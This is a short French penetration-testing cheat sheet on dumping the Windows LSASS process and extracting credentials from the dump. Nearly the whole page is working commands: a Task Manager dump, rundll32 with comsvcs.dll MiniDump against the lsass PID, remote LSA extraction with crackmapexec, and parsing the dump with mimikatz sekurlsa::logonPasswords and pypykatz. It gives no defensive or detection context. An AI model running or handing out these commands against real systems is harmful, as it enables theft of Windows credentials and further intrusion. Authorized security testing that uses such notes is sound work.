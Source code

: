 ```yaml
---
public: true # set to true to make the article publishable
---
```


## DUMP de LSASS

## Localement
### Génération d'un dump via le gestionnaire de tâches

Bouton droit sur  le processus > Créer un fichier dump

Le fichier est créé dans le dossier %TEMP%

### Rundll32.exe & Comsvcs.dll
- Trouver le pid de lsass :
	- `tasklist /svc`
	- `Get-Process lsass`
- Créer le dump (pid = 672) :
	- `rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full`

## A distance

```
crackmapexec smb $TARGET_IP --local-auth -u $LOCAL_USER -p $LOCAL_PASS --lsa
```

## Extraction d'informations d'identification

```
# depuis windows dans mimikatz : (ne touche qu'au dump, pas au precessus)
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords

# depuis linux
pypykatz lsa minidump /home/peter/Documents/lsass.dmp
```
